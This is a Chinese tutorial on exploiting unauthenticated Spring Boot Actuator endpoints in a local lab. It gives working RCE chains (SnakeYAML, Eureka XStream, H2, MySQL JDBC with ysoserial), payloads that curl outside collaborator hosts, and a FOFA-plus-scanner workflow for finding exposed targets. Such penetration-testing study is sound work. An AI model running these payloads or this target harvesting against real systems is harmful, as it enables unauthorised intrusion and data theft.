Spring Boot Actuator 未授权的测试与利用思路

- - -

# Spring Boot Actuator 未授权的测试与利用思路

## 0x0 前言

  最近遇到的一个漏洞，但是因为目标关掉了一些端点导致没利用起来达到RCE的效果，不过在提升漏洞危害的时候，参考了不少文章，也做了一些尝试，所以分享出来自己的经历，希望大家如果遇到跟我一样的情况，可以省下自己调试时间，来做更有意义的事情。

## 0x1 Actuator 简介

官方简介: [Spring Boot Actuator: Production-ready Features](https://docs.spring.io/spring-boot/docs/current/reference/html/actuator.html)

> Spring Boot includes a number of additional features to help you monitor and manage your application when you push it to production. You can choose to manage and monitor your application by using HTTP endpoints or with JMX. Auditing, health, and metrics gathering can also be automatically applied to your application.

Actutator是一个生产环境部署时可使用的功能，用来监控和管理应用程序。支持选择HTTP Endpoints 或者JMX的方式来访问，同样支持查看应用程序的Auding,health和metrics信息。

## 0x2 部署环境

一般快速部署环境，我很喜欢参考官方的[Spring Quickstart Guide](https://spring.io/quickstart),官方文档一般都很简洁，也是从新手角度写的的tutorial，故理解和实践起来非常简单。

快速开始没有Spring Boot 1.x的，所以1.x的版本我用Idea直接修改Maven的依赖来创建。

> 正如官方在2019.8.06所言,v1.5.22.RELEASE 是Spring Boot 1.x的最后一个版本。
> 
> SpringBoot 2.0 发布时间则是2018.3.1,现在已经是2.6版本

故1.x版本从历史线上来说，是有可能出现在真实环境的，只不过暂时没遇到，所以纳入本文研究范围。

### 0x2.1 Spring Boot 2.x

1.打开[https://start.spring.io/](https://start.spring.io/)

2.选择如下配置，记得添加Spring Web、actutator依赖，然后点击"GENERATE"来生成。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111315-73e4578a-d175-1.png)

3.解压然后用IDE加载，定位到DemoApplication.java文件，尝试添加新的方法，写完用option+command+L格式化一下(我很依赖这个功能，要不然代码很乱！)

> PS.我这里使用的是idea,为了出现代码提示,需要点击pom.xml然后导入依赖。

4.运行项目

命令行下:

```plain
mvn spring-boot:run
```

或者IDEA里面执行Run

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111335-7fde85f6-d175-1.png)

5.设置其他端口,当时找了一圈没发现，下面是自己翻文档一些技巧。

Google Dork: `site:spring.io spring boot port 8080 change`

然后很快就能找到官方的[解决方案2.4](https://docs.spring.io/spring-boot/docs/current/reference/html/howto.html),通过在`applicaiton.properties`添加如下占位符即可设置custom port。

```plain
server.port=${port:8100}
```

6.访问查看端点执行是否正常

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111350-88d13c80-d175-1.png)

如上图所示,搭建过程是成功的！

### 0x2.2 Spring Boot 1.x

修改Spring Boot版本为1.5.22.RELEASE即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111406-92bc0414-d175-1.png)

然后我们运行起来,浏览器进行查看。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111417-98ddb14e-d175-1.png)

可以看到两者暴露的端点的方式是不一样的。

## 0x3 Actuator 版本差异

比较全面且官方的差异:[Spring Boot 2.0 Configuration Changelog](https://github.com/spring-projects/spring-boot/wiki/Spring-Boot-2.0-Configuration-Changelog)

其中就包括了Actutator的一些配置的版本改变。

端点的使用:

[https://docs.spring.io/spring-boot/docs/current/actuator-api/htmlsingle/](https://docs.spring.io/spring-boot/docs/current/actuator-api/htmlsingle/)

常见端点:

[https://docs.spring.io/spring-boot/docs/1.4.x/reference/htmlsingle/#production-ready-enabling](https://docs.spring.io/spring-boot/docs/1.4.x/reference/htmlsingle/#production-ready-enabling)

[https://docs.spring.io/spring-boot/docs/1.5.x/reference/htmlsingle/#production-ready-enabling](https://docs.spring.io/spring-boot/docs/1.5.x/reference/htmlsingle/#production-ready-enabling)

[https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#actuator](https://docs.spring.io/spring-boot/docs/2.5.x/reference/htmlsingle/#actuator)

都可以在以上链接的`Endpoints`节看到，它们之间是存在差异的，有些端点我在真正启动1.4.x的Spring-boot是没有的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111427-9f397974-d175-1.png)

下面几点是可以重点关注下的变化:

SpringBoot <= 1.5.x 以下,是不需要任何配置的，直接就可以访问到端点。

而如果1.5.x<=SpringBoot<=2.x, 那么默认是只能访问到`health`和`info`端点的

你访问其他端点是会提示:

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111436-a4382b46-d175-1.png)

那么开发为了访问到其他端点，会这样设置来关闭认证，允许其他端点未授权访问:

```plain
management.security.enabled=false
```

如果想要针对某个端点，比如`env`,则可以这样设置:

```plain
endpoints.env.sensitive=false
```

而相对更安全的是开启HTTP basic认证，这个时候可以尝试猜测下弱口令:

\- 添加依赖

```plain
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-security</artifactId>
</dependency>
```

\- application.properties 添加用户名和密码

```plain
security.user.name=admin
security.user.password=123456
management.security.enabled=true
management.security.role=ADMIN
```

当SpringBoot>=2.x时，默认也是只能访问`/health`、`info`，但是访问的端点方式发生了改变，

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111446-aa2852c4-d175-1.png)

相比于1.x版本的端点多了个前缀 `/actutator`,即如`/health` 变成了`/actuator/health`。

`Spring Boot Actuator` 针对于所有 endpoint 都提供了两种状态的配置

-   enabled 启用状态。默认情况下除了 `shutdown` 之外，其他 endpoint 默认是启用状态。
-   exposure 暴露状态。endpoint 的 enabled 设置为 true 后，还需要暴露一次，才能够被访问，默认情况下只有 health 和 info 是暴露的。

常见配置，见官方文档，下面以`shutdown`这个默认不启动端点来做说明:

1.开启端点

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111457-b0b65384-d175-1.png)

2.对外暴露端点

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111506-b698282c-d175-1.png)

3.访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111516-bc198584-d175-1.png)

- - -

还有个版本差异，就是设置管理端点的路径:

在1.x版本下，设置语句如下:

```plain
management.context-path =/manage
```

此时端点的访问方式就变为了:

```plain
/manage/dump
/manage/autoconfig
/manage/metrics
...
```

在2.x版本，设置语句如下:

```plain
management.endpoints.web.base-path=/manage
```

有些人可能喜欢将其命名为`monitor`,所以知道这个特点，我们可以适当丰富下自己的字典。

当然也支持对端点改名，但是这种情况比较少见,当做了解下,有时候走投无路的时候，去对着文档fuzz一次，也许也会有收获。

```plain
management.endpoints.web.path-mapping.health=healthcheck
```

## 0x4 漏洞利用

为了方便演示，启用的配置开启了所有端点未授权访问。

1.X

```plain
server.port=${port:8200}
endpoints.shutdown.enabled=true
endpoints.sensitive=false
management.security.enabled=false
```

2.x:

```plain
server.port=${port:8100}
management.endpoints.shutdown.enabled=true
management.endpoints.web.exposure.include=*
```

### 0x4.1 敏感信息泄露

**1.env 泄露配置信息**

```plain
2.x
http://127.0.0.1:8100/actuator/env
1.x
http://127.0.0.1:8200/env
```

> 端点作用:
> 
> Exposes properties from Spring’s `ConfigurableEnvironment`.

这个端点会泄露Spring 的 ConfigurableEnvironment 公开属性，其中包括系统版本，环境变量信息、内网地址等信息，但是一些敏感信息会被关键词匹配，做隐藏\*处理，但是如果开发的密码字段不规范，可能直接导致泄露数据库密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111529-c3f82b7a-d175-1.png)

**2\. trace 泄露用户请求信息**

```plain
2.x
http://127.0.0.1:8100/actuator/trace
1.x
http://127.0.0.1:8200/trace
其他:
http://127.0.0.1:8200/httptrace
http://127.0.0.1:8200/actuator/httptrace
```

> 端点作用:
> 
> Displays HTTP trace information (by default, the last 100 HTTP request-response exchanges). Requires an `HttpTraceRepository` bean.
> 
> 显示HTTP跟踪信息(默认情况下,最后的100 HTTP请求-响应交互)。
> 
> 需要存在HttpTraceRepository bean。

通过这个我们可以获取到请求这个站点时的完整的http包，其中就可能包括正常用户的session，从而我们可以直接接管登录，如果遇到管理员的会话，那么危害就可能进一步扩大。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111546-ce244ffc-d175-1.png)

关于这个危害我还想说明一下，因为这个只是显示最近的100条数据，但是我们可以写脚本来持续监控。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111638-ed453676-d175-1.png)

**3.mappings 泄露路由信息**

```plain
2.x
http://127.0.0.1:8100/actuator/mappings
1.x
http://127.0.0.1:8200/mappings
```

> 端点作用:
> 
> Displays a collated list of all `@RequestMapping` paths.
> 
> 展示整理的@RequestMapping注解的路径列表。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111652-f53a3c5a-d175-1.png)

**4.heapdump泄露堆栈信息**

```plain
2.x
http://127.0.0.1:8100/heapdump
1.x
http://127.0.0.1:8200/actuator/heapdump
```

> 端点作用:
> 
> Returns an `hprof` heap dump file. Requires a HotSpot JVM.
> 
> 返回一个hprof堆转储文件。需要HotSpot JVM。

这个在Spring MVC架构中是可用的，会泄露出推栈信息，其中是可以窃取到一些关键的信息，比如一些关键的Key，或者数据库连接密码，但是扫描工具没把它列为扫描端点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111739-118284d0-d176-1.png)

这个数据文件，我们可以用"Eclipse Memory Analyzer"内存分析工具,来搜索特殊字符，比如password、token等。

```plain
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))

select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111748-17186752-d176-1.png)

### 0x4.2 修改运行状态

**1.env 修改环境变量**

```plain
2.x
http://127.0.0.1:8100/actuator/env
1.x
http://127.0.0.1:8200/env
```

我们可以通过post请求来新增系统的全局变量，或者修改全局变量的值，这个如果修改数据库的链接，可以直接导致当前系统崩溃，结合其他漏洞，可能造成rce，这个点也蛮有意思，官方文档只说了GET的作用，却没有给出POST，但是网上有一些相关的开发教程涉及到这个。

```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"hello","value":"123"}' http://localhost:9097/actuator/env
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111805-20be65ae-d176-1.png)

**2.refresh 刷新**

```plain
2.x
http://127.0.0.1:8100/actuator/refresh
1.x
http://127.0.0.1:8200/refresh
```

这个我也没在文档或者是actuator的源码包中看到,说明这个端点是在其他依赖包注册的，emm。

这个端点的作用主要用于配置修改后的刷新，常用于结合/env+其他依赖用来触发漏洞。

**3.shutdown 关闭程序**

```plain
2.x
http://127.0.0.1:8100/actuator/shutdown
1.x
http://127.0.0.1:8200/shutdown
```

顾名思义用来关闭程序，这个端点一般不开放，一般也不会去测试，扫描器更加不可能将这个列为扫描端点，只能说存在这种风险吧。

不过有个判定的技巧，如果存在这个端点，可以先尝试GET请求，出现"Method Not Allowed"说明是存在的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111820-2a2618b2-d176-1.png)

### 0x4.3 命令执行

下面关于命令执行，主要介绍这4种相对而言较为常见的利用，以及补充一些自己的遇到的坑点。

下面的环境，采用LandGrey师傅提供的环境。

```plain
git clone https://github.com/LandGrey/SpringBootVulExploit.git
cd SpringBootVulExploit/repository/
```

这里先说明下，下面的例子，因为靶机的Spring Boot 有些为1.0有些为2.0，所以请求的方式不太一样，

1.x的话，post的数据包是`key=value`,header则为:

```plain
-H 'Content-Type: application/x-www-form-urlencoded'
```

2.x的则是`{"name":"", "value":""}`,header则为:

```plain
-H 'Content-Type: application/json'
```

- - -

#### **1.spring cloud SnakeYAML RCE**

```plain
cd springcloud-snakeyaml-rce
mvn spring-boot:run
```

> -   目标依赖的 `spring-cloud-starter` 版本 \\< 1.3.0.RELEASE
> 
> 现在最新版本3.03,古老的洞了，基本很少遇到，遇到就是好用。

**(1)制作payload.jar文件**

下载payload

```plain
git clone https://github.com/artsploit/yaml-payload.git
cd yaml-payload/src/artsploit
```

替换命令执行内容

```plain
sed -i "" 's/dig scriptengine.x.artsploit.com/curl c0dy0qcncknp8zpb5bir0jvt4kaayz.burpcollaborator.net/g' AwesomeScriptEngineFactory.java
```

编译

```plain
cd ../../
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf payload.jar -C src/ .
```

在该目录生成利用的example.yml文件,内容如下:

```plain
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:9091/payload.jar"]
  ]]
]
```

web服务挂载

```plain
python3 -m http.server 9091
```

**(2) 利用**

```plain
curl -X POST --data 'spring.cloud.bootstrap.location=http://127.0.0.1:9091/example.yml' localhost:9092/env
```

刷新即可成功触发

```plain
curl -X POST localhost:9092/refresh
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111847-3a428c44-d176-1.png)

- - -

#### **2.eureka xstream deserialization RCE**

```plain
cd springboot-eureka-xstream-rce
mvn spring-boot:run
```

> 影响版本: eureka-client < 1.8.7
> 
> 目前最新版:3.03

**(1)编写利用脚本**

```plain
#!/usr/bin/env python
# coding: utf-8

from flask import Flask, Response

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
  command = "curl i5o45whthqsvd5uhahnx5p0z9qfh36.burpcollaborator.net"
  xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>{command}</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>""".format(command=command)
  return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8090)
```

**(2)设置 eureka.client.serviceUrl.defaultZone 属性**

\*有的话这里要先记录下本来的属性值

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone=http://127.0.0.1:8090/xxxxxsuibiantianxx" http://localhost:9093/env
```

成功设置,如下图所示:

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111901-4237859e-d176-1.png)

**(3) 触发**

```plain
curl -X POST http://localhost:9093/refresh
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111914-49db93d0-d176-1.png)

成功执行请求，也执行了命令。

- - -

**(4)恢复 eureka.client.serviceUrl.defaultZone**

如果不恢复的话，那么就会一直执行，系统也会一直报错。

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone="原先的值" http://localhost:9093/env
```

然后刷新，使用新配置

```plain
curl -X POST http://localhost:9093/refresh
```

- - -

#### **3.restart h2 database query RCE**

```plain
cd springboot-h2-database-rce
mvn spring-boot:run
```

> 影响版本:(未知) 我改了配置文件，直接用了最新版的来做演示
> 
> 目前最新版:1.4.200

**(1) 设置spring.datasource.hikari.connection-test-query**

```plain
cmd.json:
{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/sh','-c','curl 0bcmbenbn8ydjn0zgztfb76hf8l29r.burpcollaborator.net');"}

curl -H "Content-Type:application/json" -X POST  -d @/tmp/cmd.json http://localhost:9096/actuator/env
```

成功设置.

**(2) 触发RCE**

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9096/actuator/restart
```

过程出现了如下错误，执行完一次，需要新创建个其他函数，或者先删除掉。:

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620111948-5e4eaaf0-d176-1.png)

```plain
sed -i "" s/T5/T6/g /tmp/cmd.json
```

同时要注意，命令执行linux和window的区别。如图所示，可以成功RCE

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620112006-695fb0a6-d176-1.png)

- - -

#### **4.mysql jdbc deserialization RCE**

```plain
cd springboot-mysql-jdbc-rce
mvn spring-boot:run
```

运行之前,需要配置一下数据库连接，要不然运行会失败的，这里我启用了我本地的mysql。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620112019-70ffb00e-d176-1.png)

查看下pom.xml的mysql-connector-java的依赖为8.0.12,cc依赖为3.2.1:

```plain
<dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>8.0.12</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
            <scope>runtime</scope>
        </dependency>
```

先访问:[http://localhost:9097/actuator/env](http://localhost:9097/actuator/env)

记录好原先的`spring.datasource.url`:

```plain
[application.properties]:6:43"},"spring.datasource.url":{"value":"jdbc:mysql://127.0.0.1:3306/test","origin":"class path resource
```

利用ysoserial生成反序列化payload:

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections3 'curl rb617n72nqnqaj8ijbiw36v7nytohd.burpcollaborator.net' > payload.ser
```

下载rce.py脚本:

```plain
wget --no-check-certificate https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py
```

编辑下脚本的端口3306为3307，避开本机的3306冲突。

**(1)修改变量**

value的值，mysql8.x填入:

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

如果是5.x则是:

```plain
jdbc:mysql://127.0.0.1:3307/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

> 两者区别:

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620112035-7a2cde9a-d176-1.png)

```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc url' http://localhost:9097/actuator/env
```

**(2)刷新配置**

```plain
curl -H "Content-Type:application/json" -X POST  http://localhost:9097/actuator/refresh
```

这里也可以通过`restart`来触发。

```plain
curl -H "content-Type:  application/json" -X POST http://localhost:9097/actuator/restart
```

**(3)访问数据库操作触发**

先监听3307，这里注意使用Py2，利用脚本不支持Py3，会出错。

```plain
python springboot-jdbc-deserialization-rce.py
```

接下来访问即可。

`curl http://localhost:9097/product/list`

关于这个，其实在真实环境中，都不用自己去触发，自带的其他操作都会导致进行数据库连接。

**(4)恢复Spring.datasource.url**

当我们获得RCE之后，前面记录的本来的jdbc url就可以还原回去了，操作如下。

```plain
curl -H "Content-Type:application/json" -X POST  --data '{"name":"spring.datasource.url","value":"jdbc:mysql://127.0.0.1:3306/test' http://localhost:9097/actuator/env
```

最终，在测试过程，我发现，有请求访问伪造的mysql服务，但是Spring-boot进程却在序列化的过程中报错退出了，导致命令没有执行成功。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620112049-829d34ee-d176-1.png)

这个是jdk版本导致的，改用cc6来解决

```plain
java -jar ysoserial-0.0.8-SNAPSHOT-all.jar  CommonsCollections6 ' open -a Calculator.app' > payload.ser
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620112106-8cdb9194-d176-1.png)

#### 5.More ...

还有很多关于这个利用，发现过程主要是Fuzz一些依赖暴露出的端点，然后深入利用，后面会掺杂来谈谈。

## 0x5 漏洞检测

(1) 收集目标，为了方便演示使用FoFa收集目标。

```plain
FOFA Dork: body="Whitelabel Error Page" && country="CN"
```

(2)使用SB-Actuator, 代码实现可以自己去尝试改进下，第二个选择是nuclei但是没这个覆盖全面,但是支持自己继续定义。

```plain
git clone https://github.com/rabbitmask/SB-Actuator.git
```

(3) 检测结果

获取1w的目标，然后http检测保存为200.txt

```plain
cat target.txt | httpx -o 200.txt
```

接着执行`python3 SB-Actuator.py -f 200.txt`,结果如下所示:

[](https://xzfile.aliyuncs.com/media/upload/picture/20210620112340-e864d73c-d176-1.png)

这种针对性检测的话，成功率本身就是比较高的，但是测试的时候记得要授权，遵纪守法!

## 0x6 总 结

   本文偏实践化，先从Actutator介绍开篇到讨论其版本差异，然后提出了3种类型的漏洞利用思路，最后，介绍了实践中如何使用检测该漏洞的自动化工具。其中，有几个问题是我没有解决的(先留个悬念)，但是可以通过阅读actuator的源码来解决，放在下篇文章中，还有就是关于命令执行也较为常见的jolokia端点、其他依赖端点等没有进行讨论，这个我也想放在偏从源代码分析原理的文章中。总的来说，java的研究还是少数人，很多问题需要自己去读源码来解决，这个需要一定的时间作为基础，但是这个前后就花了不少时间，这个过程相比于阅读源代码来说虽然时间短一些，但是非常枯燥和容易产生很多困惑。

## 0x7 参考链接

[Spring Boot & Actuator](https://www.jianshu.com/p/14d10481845e)

[Spring Boot Vulnerability Exploit Check List](https://github.com/LandGrey/SpringBootVulExploit)

[Spring Boot Actuator详解与深入应用（一）：Actuator 1.x](https://juejin.cn/post/6844903715556556807)

[警惕 Spring Boot Actuator 引发的安全漏洞](https://www.cnkirito.moe/spring-boot-actuator-notes/)

[Exploiting Spring Boot Actuators](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators)

[Spring Boot Actuator(eureka xstream deserialization RCE)漏洞测试及修复](https://forum.butian.net/share/135)
